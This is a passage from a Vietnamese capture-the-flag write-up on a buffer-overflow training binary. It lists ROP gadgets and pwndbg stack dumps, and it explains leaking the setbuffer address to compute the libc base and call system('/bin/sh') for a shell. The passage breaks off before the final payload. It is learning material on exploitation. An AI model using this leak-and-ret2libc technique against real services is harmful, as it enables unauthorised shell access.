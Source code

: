 ```shell
0x0000000000401103 : test eax, eax ; je 0x401110 ; mov edi, 0x404048 ; jmp rax
0x0000000000401145 : test eax, eax ; je 0x401150 ; mov edi, 0x404048 ; jmp rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax


```

đáng ra để gọi shell ở đây thì mình sẽ cần :

```shell
mov qword ptr [r14], r15 ; ret
systemcall

```
Để gọi shell. hay nếu dùng libc thì có thể leak runtime address với **printf(%s)** tuy nhiên cần đưa địa chỉ got của func vào rsi, do rdi trỏ đến "%s", nhưng chả có gadget nào để **pop rsi**.

Cơ mà mình nghĩ đến việc, có thể leak địa chỉ trên stack với **%p%p%p%p%p**, cơ mà với mục đích tương tự thì ta có thể làm với **read**. Nên mình sẽ vào check stack xem có địa chỉ hàm nào k.

```shell
pwndbg> stack 100
00:0000│ rax rsi rsp 0x7fffffffdfb0 —▸ 0x7ffff7fa3600 (_IO_file_jumps) ◂— 0x0
01:0008│             0x7fffffffdfb8 —▸ 0x7ffff7e1762d (_IO_file_setbuf+13) ◂— test rax, rax
02:0010│             0x7fffffffdfc0 —▸ 0x7ffff7fa7780 (_IO_2_1_stdout_) ◂— 0xfbad2887
03:0018│             0x7fffffffdfc8 —▸ 0x7ffff7e0e5ff (setbuffer+191) ◂— test dword ptr [rbx], 0x8000
04:0020│             0x7fffffffdfd0 ◂— 0x0
05:0028│             0x7fffffffdfd8 ◂— 0x0
06:0030│             0x7fffffffdfe0 —▸ 0x7fffffffe000 ◂— 0x1
07:0038│             0x7fffffffdfe8 ◂— 0xc2e8a41c66979000
08:0040│ rbp         0x7fffffffdff0 —▸ 0x7fffffffe000 ◂— 0x1
09:0048│             0x7fffffffdff8 —▸ 0x40127f (main+58) ◂— mov eax, 0
0a:0050│             0x7fffffffe000 ◂— 0x1
0b:0058│             0x7fffffffe008 —▸ 0x7ffff7db6d90 (__libc_start_call_main+128) ◂— mov edi, eax
0c:0060│             0x7fffffffe010 ◂— 0x0
0d:0068│             0x7fffffffe018 —▸ 0x401245 (main) ◂— endbr64
0e:0070│             0x7fffffffe020 ◂— 0x100000000
0f:0078│             0x7fffffffe028 —▸ 0x7fffffffe118 —▸ 0x7fffffffe35f ◂— '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE'
10:0080│             0x7fffffffe030 ◂— 0x0
11:0088│             0x7fffffffe038 ◂— 0x684f04992bfd6bfd
12:0090│             0x7fffffffe040 —▸ 0x7fffffffe118 —▸ 0x7fffffffe35f ◂— '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE'
13:0098│             0x7fffffffe048 —▸ 0x401245 (main) ◂— endbr64

```

thì mình để ý thấy có thằng **setbuffer+191** chỉ cần nhập 24 bytes là tới, nên là chỉ việc leak ra xong trừ đi 191 là ra được địa chỉ hàm ngon lành. Cơ mà có 1 vấn đề. Hơi khó hiểu tí, là lúc này thì là **+191** nhưng lúc mình viết script xong attach gdb vào chạy vào **x/s** địa chỉ được leak ra thì nó là **+150** nên trong script thay vì **-191** thì mình **-150** tức là **0x96**

Sau khi leak được runtime address của hàm **setbuffer**, thì mình có thể tính được **libc_base = addr_setbuf - setbuf_offset**. Sau đó tính addr của **system, "/bin/sh"** dưạ trên offset và libc_base. Xong rồi thì với lần nhập tiếp theo mình sẽ gửi payload nhầm lấy shell như sau:
